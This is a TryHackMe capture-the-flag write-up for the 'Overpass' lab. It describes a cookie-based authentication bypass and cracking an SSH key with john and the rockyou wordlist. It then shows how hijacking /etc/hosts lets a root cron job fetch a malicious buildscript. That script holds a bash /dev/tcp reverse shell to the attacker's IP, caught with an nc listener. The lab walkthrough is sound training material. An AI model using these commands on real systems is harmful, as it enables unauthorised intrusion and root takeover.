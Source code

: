 ```yaml
---
layout: post
title: TryHackMe writeup - Overpass
author: Lorentz Vedeler
date: 2020-07-21
tags:   
    - TryHackMe
---
```


Here's how I rooted the room overpass on [tryhackme.com][1]

## user.txt

### Red herring #1 - Looking for sensitive data exposure
Just browsing to the IP reveals a product page for a password manager. We can find the source for the password manager which reveals that it is not secure at all - it's using a simple caeasar cipher with 47 rotations. The passwords are saved to a .overpass file in the users home directory. I actually spent a lot of time looking for one of these files exposed on the server but could not find any.

### Red herring #2 - Looking for injection
After running gobuster for a short while it revealed that an additional login page for admins could be reached. Reading the hint on tryhackme I started looking for injections. I tried many different payloads for sql, no-sql, command injection etc in the username/password fields, but could not find any that would work.

### Red herring #3 - Looking for XXE and insecure deserialization
Checking out the javascript code for login.js we can see that it's using ajax to post the credentials to an api endpoint. The comment that "body data type must match "Content-Type" header" made me think this could be an endpoint that would accept different content types. So I tried to modify the request and send credentials a few different xml and json formats, but all returned 400 Bad request.

```javascript
async function postData(url = '', data = {}) {
    // Default options are marked with *
    const response = await fetch(url, {
        method: 'POST', // *GET, POST, PUT, DELETE, etc.
        cache: 'no-cache', // *default, no-cache, reload, force-cache, only-if-cached
        credentials: 'same-origin', // include, *same-origin, omit
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        redirect: 'follow', // manual, *follow, error
        referrerPolicy: 'no-referrer', // no-referrer, *client
        body: encodeFormData(data) // body data type must match "Content-Type" header
    });
    return response; // We don't always want JSON back
}
const encodeFormData = (data) => {
    return Object.keys(data)
        .map(key => encodeURIComponent(key) + '=' + encodeURIComponent(data[key]))
        .join('&');
}
function onLoad() {
    document.querySelector("#loginForm").addEventListener("submit", function (event) {
        //on pressing enter
        event.preventDefault()
        login()
    });
}
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
``` 

### Finally - Broken authentication

We can see from the javascript above that a successful login sets the cookie `SessionToken` with the result from the request. I had incorrectly assumed that it would be a JWT token, and had been looking for ways to register a new user to see if I could find some weakness in the tokens. A desperate try was to just set this token to the username I wanted to login with. First I tried setting it to 'admin' and refresh the page. No luck. Then I tried with 'administrator'. Refresh... And behold: The administrator page. It contains a private ssh-key meant for the user james. The key is encrypted, but the text on the page suggests it should be easily crackable, and running john the ripper on it with the rockyou password list cracks it almost instantly even on my old laptop.

> edit: after reading other writeups I have no idea why it didn't work to set the cookie at first try, perhaps I didn't actually save the cookie with changed value. Apperantly it should accept any value in the cookie.

1. Save the key to id_rsa in your working directory.
2. `/usr/share/john/ssh2john.py id_rsa > id_rsa_hash`
3. `john --wordlist=/opt/wordlists/rockyou.txt --format=SSH id_rsa_hash`
4. `ssh -i id_rsa james@<IP>` 

## root.txt
...And we're in. I uploaded linpeas to the server and ran it from james home directory. It shows us a few interesting things:

1. A cron job running as root that downloads a buildscript from overpass.thm and pipes it to bash
2. We have write access to /etc/hosts

The plan is simple: we will serve our own malicious buildscript containing a reverse shell payload, spin up our listener, add an entry for overpass.thm domain with our own IP to the /etc/hosts file and wait untill the cron job executes.

``` bash
mkdir -p downloads/src
``` 
save the script below to `downloads/src/buildscript.sh`
``` bash
bash -i >& /dev/tcp/<your ip>/4444 0>&1
```

Then run the following on your own machine:
``` bash
sudo python3 -m http.server 80
# In another terminal: 
nc -lnvp 4444
```

wait for a few moments... and boom! we are root.

[1]: https://tryhackme.com